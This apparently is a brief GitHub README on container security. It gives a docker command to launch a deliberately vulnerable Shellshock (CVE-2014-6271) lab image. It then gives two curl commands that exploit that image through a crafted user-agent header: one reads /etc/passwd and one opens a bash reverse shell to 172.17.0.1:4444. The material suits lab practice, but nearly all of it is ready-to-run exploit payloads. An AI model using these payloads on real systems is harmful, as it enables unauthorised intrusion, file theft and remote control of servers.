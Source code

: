 # container_security

## Hacking 

### images 
Vulanrable image (shell-shoked)
```
docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271
```

### exploits
Get password
```
curl -H "user-agent: () { : ;} ; echo; echo; /bin/bash -c 'cat /etc/passwd' " http://localhost:8080/cgi-bin/vulnerable
```
Reverse shell
```
curl -H "user-agent: () { : ;} ; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1' " http://localhost:8080/cgi-bin/vulnerable
```

